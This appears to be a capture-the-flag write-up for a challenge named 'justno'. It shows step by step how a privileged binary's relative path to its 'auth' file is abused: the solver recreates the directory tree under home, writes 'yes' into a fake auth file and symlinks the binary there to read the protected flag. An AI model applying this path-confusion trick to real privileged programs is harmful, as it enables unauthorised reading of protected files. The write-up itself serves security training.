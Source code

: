 First of all move to the correct directory by using the *cd* command:
```bash
cd /problems/579fe8ee083cd54f55718c1324687c74
```

Here we find 4 different files by writing **ls**.
The most interesting file is the **C-file**, which we can read by writing:
```bash
cat justno.c
```

In the code we can see that they are mixing relative and exact positions.
```c
Line 8:
../../problems/579fe8ee083cd54f55718c1324687c74/auth

Line 18:
/problems/579fe8ee083cd54f55718c1324687c74/flag
```

This means that one of the files could change without affecting the other one.
This could be abused in some situations, which is exactly what we will do.

Let's go back to our home directory by running the *cd* command without arguments:
```bash
cd
```

Then we will create a folder-structure matching the relative link in the code.
``home
|  problems
|     579fe8ee083cd54f55718c1324687c74
|        auth
+- a
      b
         justno``

*auth* should be a file containing anything other than the text 'no' according to the previous code.
*justno* should be the binary file associated with the *C-file*.
We can however not compile it on our own since then it won't have the correct rights.
The same problem applies if we try to copy the first file.
So what we have to do is to create a symbolic link to the file. This is done by using the *cp* command with the *-s* attribute.

We do this by entering the following commands:
```bash
mkdir a problems
mkdir a/b
mkdir problems/579fe8ee083cd54f55718c1324687c74

echo "yes" > problems/579fe8ee083cd54f55718c1324687c74/auth
cd a/b
cp -s /problems/579fe8ee083cd54f55718c1324687c74/justno ./
./justno
```
